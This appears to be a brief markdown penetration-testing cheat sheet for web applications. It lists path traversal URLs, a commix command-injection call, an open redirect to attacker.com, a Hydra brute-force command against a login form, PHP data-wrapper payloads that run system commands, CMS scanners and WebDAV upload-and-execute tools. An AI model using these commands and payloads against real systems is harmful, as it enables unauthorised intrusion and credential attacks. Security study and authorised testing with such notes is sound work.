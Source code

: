 ## Path Traversal | Directory Traversal  
- 172.16.1.10/administration/test.php?banners=/ -> Will list all files inside the directory.
- 172.16.1.10/administration/test.php?banners=/../ -> Will back one directory in path.  

## Command injection
```bash
commix --url http://172.16.1.10/hosting —data="site=whoami" : 
```
## Path disclosure  
When we can see the application path.  
- /var/www/html/adminstration/index.php  

## Open redirect
Is a redirect that allow to change the destination to our target.
- www.test.com/redirect.php?url=http://attacker.com  

## Brute force 
Hydra
```bash
hydra -v -L users.txt -P pass.txt 172.16.1.10 http-post-form "/adm/login.php:login=^USER^&PASS=^PASS^&Login:FAIL"
```  

## Source Code analisys  

## PHP wrappers
```bash
http://test.com/index.php?page=data://text/plan;base64,hash 

http://test.com/index.php?page=data://text/plan;<?php system(id)?>
```  
## CMS
### Wordpress
- [wpvulndb.com](http://wpvulndb.com): Vulnetabilities database  

```bash
wpscan —url http://test.com/blog —api-token token
```  

### JOOMLA
```bash
joomscan -u http://172.100.0.106
```  

## Webdav
Is a set of extensions for the HTTP.
```bash
cadaver http://172.16.1.10/webdav/ # Open a connection to execute commands

davtest -url http://172.16.1.10/webdav/ # Upload files and execute it.
```

